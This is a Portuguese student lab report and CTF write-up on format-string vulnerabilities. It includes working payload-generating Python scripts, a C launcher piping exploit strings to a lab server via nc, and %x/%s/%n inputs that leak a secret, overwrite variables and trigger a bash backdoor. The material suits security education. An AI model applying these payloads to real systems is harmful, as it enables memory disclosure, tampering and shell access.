# Format-String Vulnerability Lab

## Configuração do Ambiente

Tal como descrito no guião, foi corrido ```sudo sysctl -w kernel.randomize_va_space=0```, para destivar a aleatorização do espaço de endereçamento e, assim, simplificar o ataque.

Compilamos o programa com ```make``` e copiamos o binário para a pasta que será usada pelos contentores Docker, com ```make install```.

De seguida, corremos ```dbbuild``` e ```dcup```. Iniciamos um segundo terminal, de maneira a poder começar a interagir com os servidores acabados de configurar, cada um deles a correr uma instância do programa vulnerável. As suas mensagens viriam a ser impressas no primeiro terminal.

## Tarefa 1: Quebrando o Programa

Executando ```echo hello | nc 10.9.0.5 9090``` no segundo terminal, verificamos a impressão de uma mensagem de sucesso no terminal do servidor, o que indica que, tal como esperado, o programa vulnerável foi executado normalmente.



Para o quebrar, bastou-nos correr, do lado do cliente, ```echo %s | nc 10.9.0.5 9090``` e pressionar ```Ctrl + C```, o que fez com que o servidor já não imprimisse a mensagem de sucesso. O caracter de formatação ```%s``` indica ao programa que procure uma string, que deve terminar com o típico caracter de escape (```\0```). Ora, sabendo, do guião, que o programa aceita até 1500 bytes de _input_, acaba por não encontrar o caracter de escape dentro desse limite.



Foi assim quebrado o programa vulnerável.

## Tarefa 2: Imprimindo a Memória do Programa do Servidor

### Tarefa 2A: Dados da Pilha

Se fornecermos, do lado do cliente (sob a forma ```echo <input> | nc 10.9.0.5 9090```), um _input_ começado por ```AAAA```, ao desempenhar a tarefa, sabemos que chegamos à região de memória desses caracteres (e, portanto, aos primeiros 4 bytes do nosso _input_) quando vemos, do lado do servidor, ```41414141```.

Então, executando ```echo AAAA%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x | nc 10.9.0.5 9090``` (```AAAA``` seguido de 64 ```%x```), podemos ver, então, do lado do servidor, ```41414141```.



Assim, existem 63 bytes entre a região de memória de início da _string_ de formatação e o início de ```msg```.

### Tarefa 2B: Dados da _Heap_

Tendo em conta os resultados obtidos na alínea anterior, procede-se à criação de um ficheiro ```badfile``` que servirá de _input_ para o programa vulnerável no servidor.

Com base na informação fornecida pelo servidor, sabemos que o endereço de memória da mensagem secreta é ```0x080b4008```.

Com a ajuda de um pequeno _script_ em Python, geramos ```badfile```:

```python
 1  #!/usr/bin/python3
 2  import sys
 3  N = 1500
 4  content = bytearray(0x0 for i in range(N))
 5  
 6  address = 0x080b4008
 7  content[0:4] = (address).to_bytes(4, byteorder='little')
 8  
 9  s = (".%x"*63) + ".%s"
10  fmt = (s).encode('latin-1')
11  content[4:4+len(fmt)] = fmt
12  
13  with open('badfile', 'wb') as f:
14      f.write(content)
```

Vejamos, passo a passo, a razão daquilo que foi colocado no _script_:

- Linha 4: inicialização do _buffer_ que servirá de _input_ malicioso;
- Linhas 6 e 7: colocação do endereço da mensagem secreta no início do _buffer_, tendo em conta que estamos a trabalhar numa máquina _little-endian_. O conteúdo dos 4 primeiros bytes do _buffer_ será, portanto, ```\x08\x40\x0b\x08```;
- Linhas 9, 10 e 11: pela tarefa anterior, sabemos que existem 63 posições de memória entre o início da _string_ de formatação da função ```printf``` e o início do _input_. Então, povoamos o resto do _buffer_ com 63 ```.%x```, que farão o programa saltar na memória 63 posições, uma a uma, e, por último, com ```%s```, que indicará a ```printf``` que deve imprimir uma _string_ que se encontra na posição de memória especificada, pelo que foi feito anteriormente, no início do _buffer_ de _input_;
- Linhas 13 e 14: escrita dos conteúdos desejados para ```badfile```.

Correndo o _script_, fica, então, ```badfile``` povoado.

Resta-nos enviar o seu conteúdo como _input_ para o programa vulnerável no servidor.

Executando, no terminal do lado do cliente, ```cat badfile | nc 10.9.0.5 9090```, podemos ver, então, do lado do servidor:



'A secret message'.

## Tarefa 3: Modificando a Memória do Programa do Servidor

### Tarefa 3A: Mudar o valor para um diferente

O procedimento a realizar é bastante semelhante àquele utilizado na tarefa anterior.

Em primeiro lugar, o _output_ do servidor faz-nos saber que o endereço da varíavel _target_ (a que queremos mudar) é ```0x80e5068```.

Voltamos a recorrer a um pequeno _script_ de Python para construir o _input_ maligno (```badfile```):

```python
 1  #!/usr/bin/python3
 2  import sys
 3  N = 1500
 4  content = bytearray(0x0 for i in range(N))
 5  
 6  address = 0x080e5068
 7  content[0:4] = (address).to_bytes(4, byteorder='little')
 8  
 9  s = (".%x"*63) + ".%n\n"
10  fmt = (s).encode('latin-1')
11  content[4:4+len(fmt)] = fmt
12  
13  with open('badfile', 'wb') as f:
14      f.write(content)
```

Desta vez:

- Na linha 6, definimos o que irá ser escrito no início do _input_ como o endereço de memória cujo conteúdo queremos alterar;
- Com os ```.%x``` da linha 9, fazemos ```printf``` saltar as já familiares 63 posições de memória até chegar ao início do _input_. Sabemos que, então, na posição seguinte, estará o endereço do que nos interessa manipular. Agora, em vez de usarmos ```%s```, para imprimir o seu conteúdo como _string_, usamos ```%n```, para alterá-lo (seguido de ```\n```, que fará o _output_ mudar de linha, facilitando a leitura).

Assim, após gerar ```badfile``` e correr, como de costume ```cat badfile | nc 10.9.0.5 9090```, vemos, do lado do servidor:



Tal como pode ser observado na imagem, o valor da variável-alvo foi alterado:

```
The target variable's value(before): 0x11223344

...

The target variable's value (after): 0x0000012c
```

### Tarefa 3B: Mudar o valor para ```0x5000```

Sabemos que ```%n``` escreve o número de caracteres até então no _output_. Tendo em conta que o valor a escrever na variável-alvo é ```0x5000```, que é ```20480``` em decimal, temos de fornecer um _input_ com 20480 caracteres até ```%n```.

Levamos a cabo o ataque com um pequeno programa em C:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char input[] = "echo \x68\x50\x0e\x08%.19980X%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%n | nc 10.9.0.5 9090";

    system(input); return 0; }
```

Tal como na tarefa anterior, o _input_ começa pela posição de memória cujo conteúdo vamos alterar ("ao contrário", dado estarmos num contexto _little-endian_).

Queremos, então, ter 20480 caracteres de _input_ até ```%n``` e imprimimos, com todos os ```%x```, o conteúdo das 63 posições de memória até ao início do _buffer_ de _input_.

Neste caso, usamos ```%08x``` para garantir que, para cada uma das tais 63 posições de memória, 8 caracteres são impressos, dado que, com ```%x```, os zeros à esquerda são omitidos. Assim, ```63*8 = 504``` dos pretendidos 20480 já serão impressos.

Além disso, já temos os 4 bytes inicias que, como referido, especificam a posição de memória que afetaremos.

Então, resta-nos povoar os restantes 19980 caracteres do _input_. Para isso, usamos logo a seguir à especificação do endereço que nos interessa, ```%.19980X```, que povoará, automaticamente, 19880 caracteres com 0.

Compilando e correndo o programa, que, como se pode ver, já envia o _input_ direcionado ao servidor para uma consola, podemos então observar, no _output_ do servidor:



(depois de uma série de zeros que ajudam a perfazer os desejados 19980...)



Que o valor da variável-alvo é, tal como pretendido, ```0x00005000```.

# CTF Format Strings

## Desafio 1

Tal como descrito no enunciado, começamos por correr o comando ```checksec program``` para verificar quais as proteções ativas neste programa. 

 

Verificamos então que, há RELRO parcial, existem canários de proteção do endereço de retorno e não há aleatorização das posições do binário (NO PIE).

Seguidamente, analisando o ficheiro ```main.c```, nomeadamente as seguintes linhas, percebemos que o input do utilizador é guardado num _buffer_ de 32 bytes e depois impresso num _printf_ sem quaisquer argumentos adicionais.

```c
...
25    scanf("%32s", &buffer);
26    printf("You gave me this: ");
27    printf(buffer);
...
```

Aqui encontramos então, uma vulnerabilidade que possivelmente nos permite fazer um ataque do tipo _format string_.
Utilizando a função "scanf()", é possivel inserir uma string com o endereço da flag, e depois lê-lo com "%s", obtendo assim a flag.
Para isso, no ficheiro ```exploit_example.py```, criamos uma string de teste, utilizando "%x", para descobrirmos a localização me memória do input que acabamos de inserir, neste caso, a string "AAAA".

```c
...
20   s = "AAAA" + ".%x"*50
21
22   p.recvuntil(b"got:")
23   p.sendline(s)
24   p.interactive()
...
```

Obtivemos o seguinte output:
 

Com isto podemos ver que o padrão "41414141" aparece logo com o primeiro "%x", ou seja, podemos colocar nessa posiçao o "%s" para ler a flag.

Quando a função _load_flag()_ é invocada, lê a flag contida no diretório para um outro _buffer_, a variável global ```flag```, que portanto, está alocado na Heap.
Sabendo que a flag se encontra numa variável global, e como percebemos que o endereços do programa são estáticos, utilizamos o ```gdb``` para descobrir o endereço de memória da variável onde se encontra a flag.

Corremos o comando ```gbd program```, adicionamos um _break point_ na função main e demos print ao endereco de memória da variavel ```flag```.

 
 

O endereço de retorno obtido foi ```0x0804c060```. Devido à arquitetura little-endian da máquina, escrevemos o endereço no formato de string ```\x60\xC0\x04\x08```.

 

Utilizando o ficheiro ```exploit_example.py``` disponibilizado, e substituindo o input do utilizador pelo endereço de retorno em formato de string obtivemos o placeholder da flag.

 

Sendo que o exploit tinha sido criado com sucesso, alteramos a variável ```Local``` no ficheiro do exploit para ```False``` para o corrermos no servidor. 

 

Obtivemos então a flag do desafio ```flag{58972a0313d368a6c3d07bf425505dfd}```

## Desafio 2

Como descrito no enunciado, começamos por correr o comando ```checksec program``` para verificar quais as proteções ativas neste programa. 

 

Verificamos que não há RELRO parcial, existem canários de proteção do endereço de retorno e não há aleatorização das posições do binário (NO PIE).

Seguidamente, analisando o ficheiro ```main.c```, nomeadamente as seguintes linhas, percebemos que é lançada uma _bash_ se o valor de ```key```, uma variavel global do tipo _int_, for igual a ```0xbeef```.

```c
...
18    if(key == 0xbeef) {
19        printf("Backdoor activated\n");
20        fflush(stdout);
21        system("/bin/bash");  
...
```

Esta backdoor é suficiente para controlar o servidor e assim consultar o conteúdo do ficheiro flag.txt.

Similarmente ao primeiro desafio, como ```key``` é uma variável global, e por isso está alocada na Heap, é possivel manipular o seu valor recorrendo a um ataque do tipo format string.

Seguindo a mesma estratégia usada no Desafio 1, inicialmente recorremos ao gdb para encontrar o valor do endereço de memória da variável key.

 
 

O endereço de retorno obtido foi ```0x0804b324```.

Tal como no Desafio 1, criamos uma string de teste, utilizando '%x', para descobrirmos a localização do input que acabamos de inserir e verificamos que o padrão "41414141" aparece logo com o primeiro '%x'.

 

Utilizando uma cópia do ficheiro ```exploit_example.py```, disponibilizado no Desafio 1, alteramos a porta para a respetiva ao Desafio 2 (4005) e retiramos a seguinte linha de código de forma a que o script não interrompa a sua execução, uma vez que o output inicial é diferente neste desafio.

```c
...
20    p.recvuntil("got:")
...
```

Sabendo o endereço da variável, através do '%n' é possivel alterar o seu valor. 

Calculamos quantos bytes é que têm de ser imprimidos para o valor ser igual a 0xBEEF, ou seja, 48879 em decimal.
Considerando primeiramente, um _garbage address_, a string de inout "AAAA", e em seguida o endereço da key, calculamos que até ali imprimimos 8 bytes, 4 do _garbage address_ e 4 do endereço da key, ficando assim com ```48879 - 8 = 48871``` bytes restantes para imprimir. 

Sendo que o buffer de entrada tem no máximo 32 bytes diponíveis, recorremos ao '%.Nx' com N = 48871, e em seguida, adicionamos o '%n', para escrever esse número de bytes no endereço fornecido. 

Sendo assim, corremos o novo exploit com a string de input ```AAAA\x24\xB3\x04\x08%.48871x%n```.
Verificamos que o programa imprime o _garbage address_, mas reescreve o endereço da key, ativando assim a backdoor. 
Correndo o comando `cat flag.txt`, obtivemos assim a flag ```flag{b0f668048a22647face76747c1d49d5f}```.

 
